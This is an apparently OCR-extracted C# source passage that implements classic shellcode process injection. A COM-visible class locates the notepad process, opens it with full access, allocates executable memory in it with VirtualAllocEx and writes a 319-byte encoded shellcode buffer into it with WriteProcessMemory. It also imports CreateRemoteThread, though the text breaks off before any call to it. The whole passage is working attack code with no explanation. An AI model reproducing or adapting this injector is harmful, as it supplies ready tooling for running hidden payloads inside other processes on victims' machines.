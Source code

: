 ```csharp

using System.Diagnostics;
using System.Runtime.InteropServices;


[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
processId);
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
   dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
   lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
   dwCreationFlags, IntPtr lpThreadId);
    public TestClass()
    {
       

        System.Diagnostics.Process[] pid_process = Process.GetProcessesByName("notepad");
   

        if (pid_process.Length == 0)
        {
            Console.Write("Process not found!");
            return;
        }
        else
        {
            Console.Write("ID of notepad is " + pid_process[0].Id);
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid_process[0].Id);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            byte[] buf = new byte[319] {
            0x48,0x31,0xc9,0x48,0x81,0xe9,0xdd,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,
            0xff,0xff,0x48,0xbb,0xb6,0x91,0x18,0x2b,0x1c,0x05,0x92,0x1b,0x48,0x31,0x58,
            0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0x4a,0xd9,0x9b,0xcf,0xec,0xed,
            0x52,0x1b,0xb6,0x91,0x59,0x7a,0x5d,0x55,0xc0,0x4a,0xe0,0xd9,0x29,0xf9,0x79,
            0x4d,0x19,0x49,0xd6,0xd9,0x93,0x79,0x04,0x4d,0x19,0x49,0x96,0xd9,0x93,0x59,
            0x4c,0x4d,0x9d,0xac,0xfc,0xdb,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xad,0x79,
            0x57,0x1e,0x29,0xb2,0x5a,0x77,0x58,0x15,0x6a,0x1d,0xc4,0x70,0xf6,0xe4,0xd0,
            0x49,0x63,0x97,0x57,0xb2,0x90,0xf4,0xad,0x50,0x2a,0xcc,0x8e,0x12,0x93,0xb6,
            0x91,0x18,0x63,0x99,0xc5,0xe6,0x7c,0xfe,0x90,0xc8,0x7b,0x97,0x4d,0x8a,0x5f,
            0x3d,0xd1,0x38,0x62,0x1d,0xd5,0x71,0x4d,0xfe,0x6e,0xd1,0x6a,0x97,0x31,0x1a,
            0x53,0xb7,0x47,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xd0,0xd9,0xe2,0x11,0x44,
            0x93,0xda,0x8e,0x71,0x6d,0xda,0x50,0x06,0xde,0x3f,0xbe,0xd4,0x21,0xfa,0x69,
            0xdd,0xca,0x5f,0x3d,0xd1,0x3c,0x62,0x1d,0xd5,0xf4,0x5a,0x3d,0x9d,0x50,0x6f,
            0x97,0x45,0x8e,0x52,0xb7,0x41,0x59,0xa0,0x18,0x8d,0xda,0x1a,0x66,0xd0,0x40,
            0x6a,0x44,0x5b,0xcb,0x41,0xf7,0xc9,0x59,0x72,0x5d,0x5f,0xda,0x98,0x5a,0xb1,
            0x59,0x79,0xe3,0xe5,0xca,0x5a,0xef,0xcb,0x50,0xa0,0x0e,0xec,0xc5,0xe4,0x49,
            0x6e,0x45,0x63,0xa6,0x04,0x92,0x1b,0xb6,0x91,0x18,0x2b,0x1c,0x4d,0x1f,0x96,
            0xb7,0x90,0x18,0x2b,0x5d,0xbf,0xa3,0x90,0xd9,0x16,0xe7,0xfe,0xa7,0xf5,0x27,
            0xb9,0xe0,0xd0,0xa2,0x8d,0x89,0xb8,0x0f,0xe4,0x63,0xd9,0x9b,0xef,0x34,0x39,
            0x94,0x67,0xbc,0x11,0xe3,0xcb,0x69,0x00,0x29,0x5c,0xa5,0xe3,0x77,0x41,0x1c,
            0x5c,0xd3,0x92,0x6c,0x6e,0xcd,0x48,0x7d,0x69,0xf1,0x35,0xd3,0xe9,0x7d,0x2b,
            0x1c,0x05,0x92,0x1b };
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
```